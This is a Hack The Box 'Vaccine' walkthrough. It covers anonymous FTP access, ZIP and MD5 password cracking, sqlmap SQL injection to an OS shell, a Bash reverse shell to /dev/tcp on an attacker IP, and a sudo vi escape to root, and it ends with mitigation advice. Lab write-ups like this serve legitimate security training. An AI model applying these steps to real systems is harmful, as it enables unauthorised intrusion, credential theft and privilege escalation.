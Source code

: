 +++
title = "Hack The Box - Vaccine"
date = 2025-05-30

[taxonomies]
tags = ["hackthebox", "ftp", "sql", "sql injection", "reverse shell", "privesc"]
+++

[![TODO](/pictures/articles/htb/vaccine/00-cover.png)](https://www.hackthebox.com/achievement/machine/447801/289)

Vaccine is a Linux machine built to demonstrate the importance of enumeration,
and the dangers of chaining multiple vulnerabilities together such as SQL
injection, password hash cracking, anonymous guest access and session cookie
stealing.


<!-- more -->


## Enumeration

<!-- Enumeration {{{-->

The [nmap](https://nmap.org/) scan reveals the target machine has port 21
([FTP](https://en.wikipedia.org/wiki/File_Transfer_Protocol)),
port 22 ([SSH](https://en.wikipedia.org/wiki/Secure_Shell)), and
port 80 ([HTTP](https://en.wikipedia.org/wiki/HTTP)) open.

![a](/pictures/articles/htb/vaccine/01-nmap.png)

- `-sC`: Script scan
- `-sV`: Version detection

The webpage only presents a single login page which, for now, cannot be
bypassed.

![a](/pictures/articles/htb/vaccine/02-login.png)

There's also an FTP service running with the target machine that is allowing
anonymous login. The username should be `anonymous` and the corresponding
password is arbitrary.

![a](/pictures/articles/htb/vaccine/03-ftp-connect.png)

After logging in, the `dir` command can be used to list the available files.

There's only one file on the share, named `backup.zip`, which can be retrieved
using the `get backup.zip` command.

To exit the FTP session, issue the `exit` command.

![a](/pictures/articles/htb/vaccine/04-ftp-get.png)

`backup.zip` then needs to be extracted however, it is password-protected.

![a](/pictures/articles/htb/vaccine/05-unzip.png)

To crack the password, its hash needs to be extracted first from the encrypted
ZIP archive using `zip2john`.

![a](/pictures/articles/htb/vaccine/06-zip2john.png)

Then the extracted hash can be checked against the famous `rockyou` wordlist
using [John the Ripper](https://www.openwall.com/john/).

`john` shows that the password to unlock the ZIP is `741852963`.

![a](/pictures/articles/htb/vaccine/07-john-hashcrack.png)

The ZIP contains 2 files that can be investigated further.

![a](/pictures/articles/htb/vaccine/08-unzip.png)

[grep](https://en.wikipedia.org/wiki/Grep)ping `index.php` for `passw` reveals
a password hash stored for the `admin` user.

The found hash can be stored in a file for later use.

![a](/pictures/articles/htb/vaccine/09-pass-hash.png)

[hashID](https://psypanda.github.io/hashID/) confirms that it is indeed most
likely an [MD5](https://en.wikipedia.org/wiki/MD5) hash.

![a](/pictures/articles/htb/vaccine/10-hashid.png)

This hash can then be checked against the `rockyou` wordlist using `hashcat`.

![a](/pictures/articles/htb/vaccine/11-hashcat.png)

- `-a 0`: Dictionary attack mode
- `-m 0`: MD5 hash type

`hashcat` has cracked the hash and found the password `qwerty789`.

![a](/pictures/articles/htb/vaccine/12-hashcat-result.png)

It is now possible to log in to the website and enumerate its dashboard.

![a](/pictures/articles/htb/vaccine/13-login.png)

<!-- }}} -->

## Foothold

<!-- Foothold {{{-->

Upon running a search query, it reveals that the dashboard may actually be
connected with a backend database.

![a](/pictures/articles/htb/vaccine/14-test-query.png)

Intercepting the search query request with Burp Suite shows that there is a PHP
Session ID (`PHPSESSID`) being passed to the database in a form of a cookie.

![a](/pictures/articles/htb/vaccine/15-cookie.png)

The search query can be investigated with
[sqlmap](https://github.com/sqlmapproject/sqlmap) if it is SQL injectable.

![a](/pictures/articles/htb/vaccine/16-sqlmap.png)

- `u`: Target URL
- `--cookie`: HTTP header cookie value

`sqlmap` in its output displays multiple possible payloads to perform an
SQL injection.

To exploit the vulnerability, `sqlmap` should be called again but this time with
the additional `--os-shell` option to conclude in a shell.

![a](/pictures/articles/htb/vaccine/17-sqlmap-res.png)

The spawned `os-shell` is not so stable so it needs an additional payload
to make it work better.

To receive this incoming connection, a [netcat](https://en.wikipedia.org/wiki/Netcat)
should be set up listening an arbitrary port (e.g. `1234`).

![a](/pictures/articles/htb/vaccine/18-netcat.png)

The following Bash one-liner will initiate a connection from target back to the
attacker machine.

![a](/pictures/articles/htb/vaccine/19-payload.png)

- `bash`: Invoke a Bash shell
- `-c`: Execute the command that follows
- `bash -i`: Invoke another Bash shell instance
- `>&`: Redirect `stdout` and `stderr` to the specified location
- `/dev/tcp/10.10.15.127/1234`: Initiate a TCP connection to the specified
  address
- `0>&1`: Redirect `stdin` to `stdout`

The [netcat](https://en.wikipedia.org/wiki/Netcat)listener has successfully
received the connection resulting in a reverse shell.

![a](/pictures/articles/htb/vaccine/20-reverse-shell.png)

This shell isn't really stable either, it is disconnecting randomly, but it can
be utilized to look around on the system and retrieve the user flag.

![a](/pictures/articles/htb/vaccine/21-user-flag.png)

<!-- }}} -->

## Privilege escalation

<!-- Privilege escalation {{{-->

While exploring the web server's dedicated directories,
a password stored in clear text was discovered in a PHP file.

![a](/pictures/articles/htb/vaccine/22-user-password.png)

`sudo -l` shows that the current `postgres` user can launch `/bin/vi` as sudo to
edit a designated configuration file (`pg_hba.conf`).

![a](/pictures/articles/htb/vaccine/23-sudo-l.png)

According to [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#sudo)
there are multiple ways to break out from restricted environments by spawning an
interactive system shell.

One way is to open the configuration file with `vi` as `sudo`.

![a](/pictures/articles/htb/vaccine/24-vi-open.png)

Set the shell to `/bin/sh`.

![a](/pictures/articles/htb/vaccine/25-vi.png)

And then issue the `shell` command.

![a](/pictures/articles/htb/vaccine/26-vi.png)

After executing the commands, a `root` shell is spawned and the `root` flag can
be retrieved from the `/root` directory.

![a](/pictures/articles/htb/vaccine/27-root-flag.png)

By achieving root privileges, the machine is
[pwned](https://www.hackthebox.com/achievement/machine/447801/289).

<!-- }}} -->

## Mitigation

<!-- Mitigation {{{-->

1. Secure FTP Service
    - Disable anonymous logins and require authentication
    - Replace FTP with more secure protocols such as STFP

2. Web Application Security
    - Implement multi factor authentication mechanisms

3. SQL injection
    - Validate and sanitize all user inputs
    - Use prepared statements and parameterized queries to separate SQL code
    from data

4. Reverse Shell Prevention
    - Monitor and restrict outbound network traffic for patterns indicating
    reverse shell attacks

5. Sudo privileges
    - Implement the principle of least privilege when assigning sudo rights

6. Restrict configuration files
    - Ensure configuration files are accessible only for authorized users

7. Secure Shell Access
    - Restrict shell commands that can be executed
    - Monitor shell activity for suspicious behaviour

<!-- }}} -->
